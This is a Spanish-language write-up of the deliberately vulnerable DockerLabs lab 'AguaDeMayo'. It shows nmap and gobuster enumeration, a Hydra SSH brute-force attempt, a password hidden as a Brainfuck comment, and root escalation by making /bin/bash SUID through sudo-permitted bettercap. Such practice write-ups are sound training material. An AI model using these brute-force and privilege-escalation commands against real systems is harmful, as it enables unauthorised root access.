# 🧪 Informe de Pentesting – Máquina *AguaDeMayo*

* **Nombre**: AguaDeMayo
* **Nivel**: Fácil
* **Objetivo**: Obtener acceso a la máquina como root a través de explotación de servicios y técnicas de escalada de privilegios.
* **Logo**:
  


---

## 🐳 Despliegue de la Máquina

Descargamos la máquina desde la página oficial de DockerLabs y procedemos a descomprimirla:

```bash
unzip aguademayo.zip
```

Luego, la desplegamos utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh aguademayo.tar
```

Imagen del despliegue exitoso:


---

## 📡 Verificación de Conectividad

Verificamos que la máquina esté activa con un simple ping:

```bash
ping -c4 172.17.0.2
```

Resultado del ping:


---

## 🔍 Escaneo de Puertos

Utilizamos Nmap para descubrir todos los puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

El resultado revela que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.


---

## 🧪 Detección de Servicios

Con mi script personalizado `extractPorts` extraigo automáticamente los puertos abiertos y la IP, luego realizo un escaneo más profundo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Esto nos permite obtener información detallada sobre los servicios y versiones activas.


---

## 🌐 Enumeración Web

Accediendo al puerto 80 en el navegador, se muestra la página por defecto de Apache2:



Realizamos fuzzing con `gobuster` para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Se descubre el directorio `/images`:


Al acceder a `http://172.17.0.2/images/`, encontramos un archivo JPG llamado `agua_ssh.jpg`:


---

## 🧾 Análisis de Metadatos

Usamos `exiftool` para analizar los metadatos del archivo JPG:

```bash
exiftool agua_ssh.jpg
```

No se encuentra información útil. También se realiza otro escaneo con Gobuster, pero no se identifican más recursos relevantes.


---

## 🔐 Intento de Fuerza Bruta SSH

Dado el nombre de la imagen `agua_ssh.jpg`, se prueba con el usuario `agua` utilizando Hydra para encontrar la contraseña, sin éxito:

```bash
hydra -l agua -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

---

## 🧠 Análisis del Código Fuente

Revisando el código fuente HTML de la página principal, encontramos un comentario sospechoso:

```html
<!-- +[----->+++<]>+.+++++++.--------.+++.------.--------. -->
```

Este es código en **Brainfuck**, un lenguaje de programación esotérico. Lo traducimos en línea y obtenemos:

```
bebeaguaqueessano
```

Este resultado parece ser una contraseña.



---

## 🔑 Acceso SSH

Con las credenciales:

* **Usuario**: agua
* **Contraseña**: bebeaguaqueessano

Accedemos exitosamente al servicio SSH:

```bash
ssh agua@172.17.0.2
```



---

## 🚀 Escalada de Privilegios

Usamos `sudo -l` para verificar los privilegios del usuario `agua`:

```bash
sudo -l
```

Descubrimos que puede ejecutar `bettercap` como root sin contraseña. Aprovechamos esto para habilitar el bit SUID en `/bin/bash`:

1. Iniciamos bettercap como root:

   ```bash
   sudo bettercap
   ```

2. Dentro de bettercap ejecutamos:

   ```bash
   !/usr/bin/chmod u+s /bin/bash
   ```

3. Salimos de bettercap y ejecutamos:

   ```bash
   /bin/bash -p
   ```

Esto nos proporciona una shell como root, gracias al bit SUID activado.



---

## ✅ Conclusión

La máquina *AguaDeMayo* representa un excelente escenario para practicar técnicas básicas de:

* Enumeración web
* Análisis de metadatos
* Reconocimiento de lenguajes ocultos (Brainfuck)
* Acceso a través de SSH
* Escalada de privilegios con binarios permitidos como sudo

Gracias al acceso permitido a `bettercap` y la posibilidad de establecer permisos SUID, se logra obtener una shell como root, completando así el reto.
